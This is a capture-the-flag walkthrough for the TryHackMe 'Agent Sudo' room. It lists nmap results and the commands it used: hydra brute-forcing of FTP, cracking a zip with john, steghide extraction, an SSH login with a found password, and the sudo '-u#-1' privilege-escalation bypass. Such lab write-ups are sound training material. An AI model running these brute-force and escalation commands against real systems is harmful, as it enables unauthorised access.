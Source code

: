 #Agent Sudo

https://tryhackme.com/room/agentsudoctf

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-15 04:35 EDT
Nmap scan report for agent-sudo (10.10.158.237)
Host is up (0.33s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.41 seconds
```
##Enumration
1. 3
2. 
```change user-agent by firefox add-on (user agent switcher to C)
user-?????
```
3. 
```by changing user agent
<redacted>
```

##Hash Cracking and brute-forcing
```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://agent-sudo
```
1. found by using hydra
```
[21][ftp] host: agent-sudo   login: chris   password: <redacted>
```
2. 
```TO_agentJ
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```
```bash
zip2john 8702.zip > forjohn
john --wordlist=/usr/share/wordlist/rockyou.txt forjohn 
```
```zip
<redacted>
```
```To_agentR
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
```bash
echo QXJlYTUx > bas364 -d
```
```
<redacted>
```
3. 
```bash
steghide extract -sf cute_alien.jpg
<redacted>
```
```message.txt from cute_jpg.txt
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
```
<redacted>
```

##Capture the user flag
1. 
```bash
ssh james@agent-sudo
```
```user-flag
<redacted>
```
```by using google reverse image to search the Alien_autopsy.jpg
****** alien ******
```

##Privilege Escalation

```firefox cve sudo
CVE-2019-*****
```
```bash
sudo -u#-1 /bin/bash
```
```root_flag
<redacted>
```
```a.k.a AgentR
<redacted>
```
